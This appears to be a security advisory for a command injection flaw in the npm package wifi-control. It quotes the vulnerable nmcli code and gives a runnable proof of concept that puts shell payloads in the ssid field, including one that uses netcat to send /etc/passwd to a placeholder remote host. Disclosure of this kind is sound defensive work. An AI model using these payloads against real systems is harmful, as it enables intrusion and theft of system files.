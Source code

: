 # Command Injection in wifi-control
## Basic information
Vulnerability Author: YorkLee(liyue2021@hust.edu.cn)

Vulnerable npm package: wifi-control

Npm url: https://www.npmjs.com/package/wifi-control

Github url: https://github.com/msolters/wifi-control-node

Vulnerable version: <= 2.0.1

Vulnerable file: lib/linux.js
```js
connectToAP: function(_ap) {
      var COMMANDS, _msg, com, connectToAPChain, error, error1, error2, i, len, ssidExist, stdout;
      COMMANDS = {
        "delete": "nmcli connection delete \"" + _ap.ssid + "\"",
        connect: "nmcli device wifi connect \"" + _ap.ssid + "\""
      };
      if (_ap.password.length) {
        COMMANDS.connect += " password \"" + _ap.password + "\"";
      }
      try {
        stdout = this.execSync("nmcli connection show \"" + _ap.ssid + "\"");
        if (stdout.length) {
          ssidExist = true;
        }
      } catch (error1) {
        error = error1;
        ssidExist = false;
      }
      ...
}
```
The vulnerability is in lib/linux.js, line 170. _ap.ssid is not checked.

## Payload
main.js:
```js
const WiFiControl = require('wifi-control');
const iface = WiFiControl.findInterface();
WiFiControl.connectToAP(
  {
    ssid: '" || touch hack.txt && "',
    password: "mypassword",
  },
  (err, res) => {
    console.log(res);
  }
);

// payload1: " || touch hack.txt && "
// payload2: " || nc {hostIP} {port} < /etc/passwd &&"
```
Payload1 is used to create a hack. txt file.

Payload2 is used to transfer files to remote servers.

Payload located in ssid can execute almost all commands.
## Exploit
Environment: Ubuntu

Attention: ensure that your wireless network device name contains "wlan".

![Alt text](image.png)

You just run following commands to exploit:
```
npm i
npm start
```